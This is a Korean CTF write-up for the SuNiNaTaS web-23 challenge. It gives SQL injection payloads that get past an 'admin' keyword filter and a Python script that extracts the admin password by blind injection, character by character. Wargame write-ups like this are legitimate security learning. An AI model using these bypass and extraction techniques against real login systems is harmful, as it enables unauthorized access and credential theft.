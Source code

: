 # web-23

    22번과 동일한 형태의 SQL injection.
    admin의 비번을 알아내는 것이 목표인데, admin이 필터링 키워드에 추가되었다. 
    그러니까, admin을 쓰지 않고, admin인 것을 알아야 한다. 

## admin으로 로그인하기
- `SELECT * FROM user WHERE id='' AND pw=''`
- id에 `ad'+'min'--`, 을 넣으면 필터링 우회가능.
    - `'or id<'b'--`를 넣어도, admin의 a가 b보다 작기에 참이 되어 로그인이 된다. 

## pw 길이 알아내기
- `ad'+'min' and len(pw)=12--`에서 로그인이 된다.

## pw 내용 알아내기
    import urllib
    import requests

    url = "http://www.suninatas.com/challenge/web23/web23.asp"
    headers = {'Cookie':'ASPSESSIONIDCQTACDCA=JNENOGAACCJMPEDFLCLNPJAC'}
    password = ""

    for i in range(1,13):
        for j in range(33,123):
            query = "?id='or right(left(pw,"+str(i)+"),1)='"+chr(j)+"'--&pw=1004"
            r = requests.get(url+query, headers=headers)
            if r.text.find("color=blue>admin") != -1:
                password += chr(j)
                print ("password is ", password)
                break

>필터링을 피하는 방법, left, right같은 SQL 함수에 대해서 알게 되었다. burpsuite말고, 스크립트로 푸는 방법도 조금 익숙해진 것 같다.